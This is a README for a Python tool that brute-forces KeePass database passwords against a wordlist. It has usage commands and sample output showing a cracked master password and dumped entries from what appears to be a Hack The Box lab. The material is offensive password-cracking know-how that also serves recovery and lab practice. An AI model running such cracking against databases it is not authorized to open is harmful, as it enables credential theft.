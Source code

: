 # brutalkeepass
## Description
- Brute force Keepass databases
- Written in Python  
## Why?
Useful when you cannot convert the database to a format that JTR or Hashcat can use.
```
$ keepass2john recovery.kdbx 
! recovery.kdbx : File version '40000' is currently not supported!
$
```
## Usage
```
$ python bfkeepass.py 
usage: bfkeepass.py [-h] -d DATABASE -w WORDLIST [-o] [-v]
bfkeepass.py: error: the following arguments are required: -d/--database, -w/--wordlist
$ 
```
Example
```
$ python bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt
[*] Opening wordlist
[*] Starting bruteforce process
[!] Success! Vault password: Toyota
[*] Stopping bf process
[*] Done.
$ 
```
Example with verbose output enabled
```
$ python bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt -v
[*] Running bfkeepass
[>] Running against database: recovery.kdbx
[>] Using wordlist: /usr/share/wordlists/rockyou.txt
[>] Opening wordlist...
[>] Successfully opened wordlist.
[*] Starting bruteforce process...
[>] Testing value: (123456)
[>] Testing value: (nicole)
[>] Testing value: (111111)
[>] Testing value: (friends)
[!] Success! Database password: Toyota
[*] Stopping bruteforce process.
[*] Done.
$ 
```
Example with entry output enabled
```
$ python bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt -o
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: Toyota
[>] Dumping entries...
[>] Title: JAMIE WILLIAMSON
[>] Username: None
[>] Password: redacted
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ADAM SILVER
[>] Username: None
[>] Password: redacted
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ANTONY C. EDWARDS
[>] Username: None
[>] Password: redacted
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: STEVE TUCKER
[>] Username: None
[>] Password: redacted
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: SAMUEL BLAKE
[>] Username: None
[>] Password: redacted
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Entry dump complete.
[*] Stopping bruteforce process.
[*] Done.
$
```
## Dependencies
- [pykeepass](https://github.com/libkeepass/pykeepass): Python library to interact with Keepass databases
